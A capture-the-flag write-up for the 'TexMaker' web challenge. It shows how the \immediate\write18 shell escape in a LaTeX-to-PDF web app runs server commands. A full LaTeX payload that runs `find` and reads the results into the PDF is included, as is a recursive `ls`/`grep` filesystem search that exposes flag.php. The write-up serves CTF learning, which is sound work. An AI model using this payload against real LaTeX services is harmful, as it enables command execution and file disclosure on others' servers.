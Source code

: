 # TexMaker
*(web90, solved by 193)*
> Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for 
creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any 
flaws.

On this challenge website, you're presented with a web app that parses LaTeX into a PDF, and returns that 
PDF to you. Essentially it's a web wrapper around the CLI `pdftex`. We already have code running on a 
machine, and the challenge creators were kind enough to provide us with a print of the stdout.

I've only used LaTeX once before (recently for a paper I submitted to a conference), so I'm fairly knew, 
but gained a lot of exposure to it. From experience, I know LaTeX is powerful, and can include other files 
inside of files, i.e. include a fragment `.tex` file inside of a parent .tex. So, let's Google for [how to 
include a file](http://tex.stackexchange.com/questions/2375/file-input-and-output). It took a lot of 
wrestling around in LaTeX, but I was finally able to get LaTeX to read an entire file line by line into a 
PDF, and export that PDF to me.

I decided I need to find a way to execute commands from LaTeX, to get a file listing, to find out where a 
flag file is. It turns out there's the `\immediate\write18{ls xyz.* > temp.dat}` construct in LaTeX. 
`write18` is a function that is essentially `system("...")` for LaTeX. We can do a `find / -name "*flag*"` 
and find any files named flag on the file system.

```
\immediate\write18{find / -name "*flag*" > hihi}
\openin5=hihi
\makeatletter
\newread\myread
\newcount\linecnt
\openin\myread=hihi
\@whilesw\unless\ifeof\myread\fi{%
  \advance\linecnt by \@ne
  \readline\myread to \line
  \line
}
\makeatother
\closein5
```
> Please excuse the shitty LaTeX that probably makes no sense, but this seemed to work mostly.

This returned nothing. Okay, perhaps the flag is stored in a random file. Let's change our system command 
to search every file for the string 'IW' (the flag format), `ls -R / | grep 'IW'`, and see what we get.
This returns a giant PDF with a bunch of junk. Doing a search using a PDF editor for "flag" reveals:
```
matchesfl/var/www/texmaker.ctf.internetwache.org/flag.php:$FLAG = ”IW–L4T3x ̇IS ̇Tur1ng ̇c0mpl3t
```

Weirdly formatted, but with some knowledge of other flags, I'm able to guess the actual flag is meant to be 
`IW{L4T3x_IS_Tur1ng_c0mpl3te}`.

